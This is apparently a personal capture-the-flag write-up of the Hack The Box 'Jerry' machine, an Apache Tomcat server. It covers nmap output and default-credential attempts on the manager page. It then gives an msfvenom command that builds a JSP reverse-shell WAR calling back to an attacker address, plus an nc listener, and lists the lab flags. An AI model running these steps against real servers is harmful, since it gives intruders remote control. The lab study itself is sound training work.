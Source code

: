 ```yaml
---
creation date: May 28th 2023
last modified date: May 28th 2023
aliases: []
tags: #🎌
---
```


Primary Categories: 
Secondary Categories:  
Links: 
Search Tag: #🎌  

# [[HTB - Jerry]]  


# Resolution summary
- Need to pay more attention when we get an error page for any information
- Once the error page showed up it had the creds written in the page plain sight I just missed them for a while
- Could have also brute forced the login either way once passed the login the rest was straight forward!!

## Improved skills
- ?

## Used tools
- [[nmap]]
- [[MsfVenom]]

---

# Information Gathering
Scanned all TCP ports:
```bash
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
```

Enumerated top 200 UDP ports:
```bash
All 65535 scanned ports on 10.129.187.36 are in ignored states.
Not shown: 65535 open|filtered udp ports (no-response)
```

---

# Enumeration
## Port 8080
### /manager
- Attempting to view this we are prompted with a sign in window I tried the following
	- admin:admin
	- admin:password
		- Neither had any luck but we did get an error page
- Looking through this error page we see it mentioned a username and password combo
	- tomcat:s3cret
		- Success we are to a page that allows us to upload a **WAR** file

---

# Exploitation
## Reverse Shell WAR
1. Using [[MsfVenom]] we create a reverse shell:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.56 LPORT=9000 -f war > shell.war
```
2. Now we start out listener:
```bash
rlwrap -cAr nc -lvnp 9000
```
3. Upload the shell once its uploaded we should see it how as a subdomain now so once we navigate to it then it will callback
4. Success we have our shell

---

# Lateral Movement to user
## Local Enumeration
- Now that we have our shell checking with `whoami` we find that we are **system** so we have access to all already!!
- Located both user and root flags in the same file labeled: `2 for the price of 1.txt` under Admin/Desktop

## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration


## Privilege Escalation vector


---

# Trophy & Loot
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 28th 2023 (05:04 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
